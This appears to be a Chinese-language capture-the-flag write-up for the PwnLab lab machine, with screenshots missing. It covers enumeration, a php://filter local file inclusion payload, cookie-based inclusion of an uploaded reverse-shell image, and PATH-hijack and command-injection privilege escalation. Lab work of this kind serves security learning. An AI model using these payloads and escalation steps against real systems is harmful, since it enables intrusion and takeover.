


# 一、信息收集

1. 主机发现，如下，kali的ip为172.16.66.134，则靶机ip为172.16.66.135
   
   

2. 端口扫描，如下，开放了80、111、3306、51598端口有web服务、rpc服务、mysql
   
   

3. 先看一下web，界面如下，有Login、Upload链接，但是上传必须先登录
   
   

4. 访问upload目录，没什么东西
   
   

5. 扫描一下目录，有一个config.php文件，但是直接访问是看不到东西的
   
   

6. 网站链接的形式为?page=，这里可以尝试一下文件包含，但是直接包含/etc/passwd却没有反应，再尝试一下使用php伪协议转码包含一下config.php文件
   
   ```http
   ?page=php://filter/read=/convert.base64-encode/resource=config
   ```
   
   

7. 包含成功，解码一下，成功获取到账号密码
   
   

8. 使用账号密码登录mysql成功
   
   

9. 获取网站账号密码，似乎是base64编码的，并未加密
   
   

10. 解码获取到后台密码
    
    

# 二、getshell

1. 利用kent/JWzXuBJJNy成功登录后台，发现文件上传功能
   
   

2. 使用kali自带的webshell尝试上传
   
   

3. 提示只允许上传images文件，也就是图片
   
   

4. 再看一下index.php的源码
   
   ```php
   ```http
   ?page=php://filter/read=/convert.base64-encode/resource=index
   ```
   
   源码如下
   
   ```php
   <?php
   //Multilingual. Not implemented yet.
   //setcookie("lang","en.lang.php");
   if (isset($_COOKIE['lang']))
   {
       include("lang/".$_COOKIE['lang']);
   }
   // Not implemented yet.
   ?>
   <html>
   <head>
   <title>PwnLab Intranet Image Hosting</title>
   </head>
   <body>
   <center>
   <br />
   [ <a href="/">Home</a> ] [ <a href="?page=login">Login</a> ] [ <a href="?page=upload">Upload</a> ]
   <hr/><br/>
   <?php
       if (isset($_GET['page']))
       {
           include($_GET['page'].".php");
       }
       else
       {
           echo "Use this server to upload and share image files inside the intranet";
       }
   ?>
   </center>
   </body>
   </html>
   ```

5. 从源码可以看出，如果使用?page去包含的话，会在文件后面自动加上.php的后缀，我们上传图片马，其文件后缀必然不是.php，因此?page这个参数是无法触发图片马的文件包含的，也就无法执行图片中的php文件。但是index中的COOKIE却设置了一个lang参数，并且被传递给了include函数，也就是说cookie的lang参数也存在文件包含。这样的话，我们只需要用cookie中的文件包含就可以触发图片马的php代码了。

6. 使用kali自带的webshell，/usr/share/webshells/php-reverse-shell.php，把shell写入图片并上传成功，前端页面返回了文件地址
   
   

7. 抓包，修改cookie包含图片马，kali开启监听，成功获取到webshell
   
   

# 三、权限提升

1. 这个靶机有gcc且www-data可用，也就是说可以使用内核漏洞提权，不过为了能多学点姿势最好还是别用内核漏洞，先cd到/home下看一下
   
   

2. 发现有几个用户，除了john外其他三个在网站的数据库中都有，逐个尝试发现mike用户是无法登录的。kent和kane用户查看后在kane用户的home目录下发现一个拥有suid权限的msgmike文件
   
   

3. 执行msgmike文件，却提示cat命令报错，没有mike用户home目录下的msg.txt文件
   
   

4. 这里可以创建一个cat文件劫持环境变量，在cat文件中执行shell，这样当执行msgmike文件时执行cat命令时就会调用执行创建的cat命令，从而获取到mike用户的shell
   
   ```shell
   echo "/bin/bash" > cat
   chmod +x cat
   export PATH=/home/kane:$PATH
   ```
   
   

5. cd到mike用户的home目录下，发现msg2root文件拥有root权限，strings看一下文件内容，发现执行了echo命令输出拼接的参数
   
   

6. 通过命令注入拼接/bin/sh，成功获取到root权限
   
   
